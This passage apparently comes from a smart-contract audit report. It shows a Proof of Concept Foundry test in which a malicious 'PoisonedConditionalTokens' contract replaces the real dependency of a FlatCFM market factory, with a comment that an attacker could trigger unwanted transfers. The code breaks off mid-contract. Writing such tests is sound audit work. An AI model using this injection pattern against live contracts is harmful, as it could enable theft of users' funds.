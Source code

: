 ## Proof of Concept

```
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity 0.8.20;

import {Test, console, Vm} from "forge-std/src/Test.sol";
import "@openzeppelin-contracts/proxy/Clones.sol";
import "@openzeppelin-contracts/token/ERC20/IERC20.sol";
import "@openzeppelin-contracts/token/ERC20/ERC20.sol";
import "@openzeppelin-contracts/utils/Strings.sol";

import "src/FlatCFMFactory.sol";
import "src/FlatCFM.sol";
import "src/ConditionalScalarMarket.sol";
import "src/FlatCFMRealityAdapter.sol";
import "src/FlatCFMOracleAdapter.sol";
import "src/libs/String31.sol";

import {DummyConditionalTokens} from "./dummy/ConditionalTokens.sol";
import {DummyWrapped1155Factory} from "./dummy/Wrapped1155Factory.sol";
import {DummyRealityETH} from "./dummy/RealityETH.sol";

contract TestERC20 is ERC20 {
    constructor() ERC20("Test Token", "TEST") {
        _mint(msg.sender, 1000000e18);
    }
}

contract PoisonedConditionalTokens is IConditionalTokens {
    mapping(address => mapping(uint256 => uint256)) private _balances;
    mapping(address => mapping(address => bool)) private _operatorApproval;
    mapping(bytes32 => uint256[]) public override payoutNumerators;
    mapping(bytes32 => uint256) public override payoutDenominator;

    function reportPayouts(bytes32 /* questionId */, uint256[] calldata /* payouts */) external pure {
        console.log("Interaction with a malicious function"); // Here attacker may perform any unwanted actions (e.g. transfers)
    }

    function supportsInterface(bytes4 interfaceID) external pure override returns (bool) {
        return interfaceID == type(IERC165).interfaceId || interfaceID == type(IERC1155).interfaceId
            || interfaceID == type(IConditionalTokens).interfaceId;
    }

    function balanceOf(address account, uint256 id) public view override returns (uint256) {
        return _balances[account][id];
    }

    function balanceOfBatch(address[] calldata accounts, uint256[] calldata ids)
        external
        view
        override
        returns (uint256[] memory)
    {
        require(accounts.length == ids.length, "length mismatch");
        uint256[] memory result = new uint256[](accounts.length);
        for (uint256 i = 0; i < accounts.length; i++) {
            result[i] = _balances[accounts[i]][ids[i]];
        }
        return result;
```